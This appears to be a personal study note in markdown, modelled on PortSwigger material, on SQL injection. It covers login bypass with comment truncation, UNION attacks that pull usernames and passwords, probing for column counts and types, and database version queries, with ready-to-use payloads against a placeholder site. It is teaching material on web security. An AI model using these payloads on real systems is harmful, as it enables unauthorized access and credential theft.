 ## SQL Injection
- Sql injection is a vulnerability that allows an attacker to interfere with the queries than an application makes to its database.
- Generally allows an attacker to view data that they are not normally able to retrive or perfom queries that they are not supposed to be able to perfom.<br>
<ins>examples of sqli</ins>
- retrieving hidden data
- subverting application logic
- union attakcs
- examining the database
- blind sql injection

### Retrieving hidden data
- consider app display products in different categories....:
```http://insecure-website.com/products?category=Gifts```
- sql query made in backend was:
```select * from products where category='Gifts' and released = 1```
- this query returns<br>
* - all details<br>
from products table<br>
category = gifts<br>
release = 1<br>
- assume unreleased is 0
- we can construct a query like:
```http://insecure-website.com/products?categories=Gifts'--```
- query sent becomes:
```select * from products where category='Gifts'--' and released =1```
- **nb**note the **--** indicates comment in sql language and anything after it is ignored(interpreted as a comment)
- this effectively removes last part of query and all Gifts both released and unreleased are fetched.
- To display all products, design the query as:
```http://insecure-website.com/products?categories=Gifts'+OR+1=1--```
- resulting query becomes:
```select * from products where category='Gifts' OR 1=1--' and released=1```
- modified query will return all items where category is Gifts or 1 is equal to 1 and since 1=1 is always true, query will return all items.

### Subverting application logic
- Consider an application that lets you login with a username and password. If a user submits the name **wiener** and password **bluecheese**, the following query is perfomed:
```select * from users where username = 'wiener' and password = 'bluecheese'```
and query returns details of user if successful otherwise rejected.
- An attacker hre can login as any user without a password simply by using sql sequence **--** to remove password check in **where** clause of query e.g. use password as **administrator--** and blank password or dummy data in password to produce query:
```select * from users where username = 'administrator'--' and password = 'dd'```
- this query will login as administraotor and fetch his/her details

### Retreiving data from other database tables
- In cases where results of an sql query are returned within the application's responses, an attacker can leverage sql injection vulnerability to retrieve data from other tables within the database
- e.g. if an application executes the following query containing user input for "Gifts":
```select name,description from Products where category = 'Gifts'```
- an attacker can submit the input:
```http://insecure-website.com/products?categories=Gifts'+UNION+SELECT+username,+password+from+users--```
and resulting query will be:
```select name,description from Products where category = 'Gifts' UNION SELECT username, password from users--'```
- This will fetch all usernames and password from users table along name and description of products in gifts category

## SQL injection UNION attacks
- when an application is vulnerable to sqli and results of query returned within responses, the **union** keyword can be used to retrieve data from other tables within the database, resulting to a sqli union attack.
- keyword **union** must execute one or more additional **select** queries and append results to original query.
- To be successful, 2 key requirements are needed:
1. individual queries must return the same number of columns
2. data types in each position must be compatible between the individual queries.
- This involves figuring out the two requirements above

### Determing number of columns required in an sql injection union attack
- There are 2 methods:
#### 1. Order by
- Involves a series of order by clauses and incrementing specified column index until an error occurs .e.g.
```
'+order+by+1--
'+order+by+2--
'+order+by+3--
etc
```
- when specified column exceeds number of actual columns, database returns an error:e.g.
```The order by position number 3 is out of range of the number of items in the select list```
- alternatively, the web app may return a generic error, no results or the error in its http response
#### 2. UNION SELECT
- Involves submitting a series of **union select** payloads specifying null different values
```
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL---
```
- If number of nulls doesn't match number of columns, the database returns an error e.g:
```All queries combined using a union, intersect or except operator must have an equal number of expressions in their target lists```
- alternatively, the web app may return a generic error, no results or the error in its http response
- when number of columns match, database returns an additional row in result set, containing null values in each column./
- effect on http response depends on application's code.
- alternatively, the null values may trigger a different error, e.g. NullPointerException or response may be undistinguishable from that caused by an incorrect number of nulls, making this method ineffective.
<ins>**nb**</ins>
- On **oracle** every select query musy use the **from** keyword and specify a valid table. There is an inbuilt table on oracle built for this purpose thus an injected query would look like:
```' UNION SELECT NULL FROM DUAL--```
- On mysql, the double-dash **--** sequence must be followed by a space. Alternatively, the hash character **#** can be used to identify a comment.

#### sql cheat sheet
1. https://portswigger.net/web-security/sql-injection/cheat-sheet
2. 

### Finding columns with a useful data type in an SQLi union attack
- Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn.e.g.:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
- if data type isn't compatible, you get the error such as:
```conversion failed when converting the varchar value 'a' to data type int```
- if an error doesn't occur and applications response contains some additional content including injected strinf value, then the relevant column is suitable for retrieving string data.

### Using an SQLi UNION attack to retrieve interesting data
- suppose that you have identified:
```
1. original queriy return 2 columns, both of which can hold string data
2. injection point is a quoted string in the where clause
3. the database contains a table called users with the columns username and password.
```
- you can retrieve the contents of user table by submitting the input:
```' UNION SELECT username, password FROM users--```

### Examining the database in SQLi attacks
- data to be gathered while perfoming sqli include database software, contents of database(columns and tables it contains)

#### Querying database type and version
- different databases provide different ways of querying their version.e.g.
1. microsoft, mysql - select @@version
2. oracle - select  * from v$version
3. postgresql - select version()
e.g.
```' union select @@version,null,null--```

#### Listing contents of the database
- 

